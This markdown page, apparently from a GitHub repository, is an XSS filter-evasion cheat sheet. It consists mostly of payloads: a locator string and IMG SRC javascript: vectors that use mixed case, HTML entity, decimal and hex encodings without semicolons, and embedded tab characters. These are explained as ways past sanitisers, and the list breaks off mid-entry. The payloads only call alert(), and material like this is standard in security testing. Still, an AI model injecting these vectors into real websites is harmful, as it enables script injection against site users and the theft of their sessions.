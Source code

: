 ```yaml
---
title: XSS Cheatsheat for filter evasion
published: true
---
```


**Note:** This page is for those who have knowledge of how xss works, if you don't know about xss this will not help you.

## Cheatsheat:
XSS locator (inject this string, view source and search for "XSS", if you see "<XSS" verses "&lt;XSS" it may be vulnerable):
```
'';!--"<XSS>=&{()}
```
Normal XSS:
```
<IMG SRC="javascript:alert('XSS');">
```
No quotes and no semicolon:
```
<IMG SRC=javascript:alert('XSS')>
```
Case insensitive XSS attack vector:
```
<IMG SRC=JaVaScRiPt:alert('XSS')>
```
HTML entities:
```
<IMG SRC=JaVaScRiPt:alert(&quot;XSS&quot;)>
```
UTF-8 Unicode encoding (almost all of these encoding methods work only in Internet Explorer and Opera):
```
<IMG
SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41>
```
Long UTF-8 Unicode encoding without semicolons (this is often effective in XSS that attempts to look for &#XX, since most people don't know about padding - up to 7 numeric charachters total). This is also useful against people who decode against strings like $tmp_string =~ s/.*\&#(\d+);.*/$1/; which incorrectly assumes a semicolon is required to terminate a html encoded string (I've seen this in the wild):
```
<IMG
SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
```

Hex encoding without semicolons (this is also a viable attack against the above string $tmp_string =~ s/.*\&#(\d+);.*/$1/; which assumes that there is a numeric charachter following the pound symbol - which is not true with hex HTML charachters):
```
<IMG
SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```
Embedded tab to break up XSS. This works in IE and Opera. Some websites claim than any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. 
The following four XSS examples illustrate this vector:
```
<IMG SRC="jav&#x09;ascript:alert('XSS');">
```
Embedded newline to break up XSS: